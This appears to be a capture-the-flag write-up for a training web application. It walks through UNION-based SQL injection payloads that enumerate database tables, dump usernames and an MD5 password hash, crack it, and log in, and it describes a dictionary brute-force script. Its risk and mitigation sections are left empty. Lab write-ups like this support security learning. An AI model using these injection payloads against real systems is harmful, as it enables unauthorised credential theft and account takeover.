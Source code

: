 # a01 + a05

## How to find the flag:
* Display all the tables of the databases with : 105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns

* Discover a table named "db_default" which contains three columns : id, username, password

* Try to view its content with the following SQL command "105 OR 1=1 UNION SELECT username, 1 FROM db_default".
- It will return this error message : Table 'Member_Sql_Injection.db_default' doesn't exist.
- We understand that it looks for the content of db_default in the wrong database.
- We now need to find in which database db_default is stored

* Use this command to show all the tables and their databases : 105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables.
- We now know that "db_default" is part of the "Member_Brute_Force" database

* List all the usernames of db_default : 105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default
- We find two candidates : admin and root

* List all the password of db_default : 105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default
- We find hashed data for one specific password : 3bf1114a986ba87ed28fc1b5884fc2f8
- We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. There's 32 characters so it is probably hashed in MD5.
- It is ! The password is "shadow"

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word "flag" is present in the response of the reconstructed URL.

```full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"```

* We can now go to the Signin page and log in with :
- Username : admin
- Password : shadow

## Risks:


## How to avoid:


Sources:
https://owasp.org/Top10/fr/A03_2021-Injection/
https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
https://www.sqlinjection.net/table-names/
https://www.sqlinjection.net/column-names/
https://www.acunetix.com/websitesecurity/sql-injection/